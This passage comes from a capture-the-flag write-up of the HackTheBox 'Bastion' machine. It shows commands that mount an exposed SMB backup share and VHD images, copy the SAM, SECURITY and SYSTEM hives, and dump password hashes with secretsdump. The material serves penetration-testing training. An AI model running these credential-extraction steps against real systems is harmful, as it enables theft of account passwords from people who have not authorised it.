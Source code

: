 - Big hint to investigate this backup folder
- Let's just have a look around for now
- [Here](https://jakebinstein.com/blog/taking-control-of-a-windowsimagebackup-folder/) is an article by Jake Binstein that is interesting to better understand the folder (Check out the Structure part in the end). That is a start.
- We have an info about the name of the pc and a potential user `L4mpje-PC`
- Looking further in the files we find vhd images. [Here](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25) is an article by Samuel Whang on how to mount this type of files

### vhd file

- Following Samuel Whang article, we first create a dir to mount the remote share `sudo mkdir /mnt/remote`
- `sudo mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw` we can mount it. It works  
![mounted share](../.res/2022-09-17-10-32-47.png)
- Note: I am going to sudo su for the rest of the process
- We navigate where we have the vhd files  
![vhd](../.res/2022-09-17-10-36-05.png)
- Let's create a mount point for the first vhd file `mkdir /mnt/vhd1`
- Let's now mount it with guestmount `guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd1 -v `
- Let's do the same last step for the 2nd vhd file 
- `mkdir /mnt/vhd2`
- `guestmount --add /mnt/remote/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd2 -v`
- In my case it worked for the 2nd file only. I am going to inspect it and then trouble shot the 1st file in case (*note: I realized later that one is a boot partition and the other the disk so that is why one of the image is useless for us*)
- Let's copy the SAM, Security and system files in my working directory `cp SAM SECURITY SYSTEM ../../../../../home/kali/Documents/hackthebox/bastion`
- We can use secret dump on them and we get... secrets `python3 /opt/impacket/examples/secretsdump.py local -sam SAM -security SECURITY -system SYSTEM`  
![secrets dump](../.res/2022-09-17-11-39-06.png)
- Let's try the password on ssh
- Also we can not that according to the admin hash we see that it is not stored as an lm hash (blank or null)
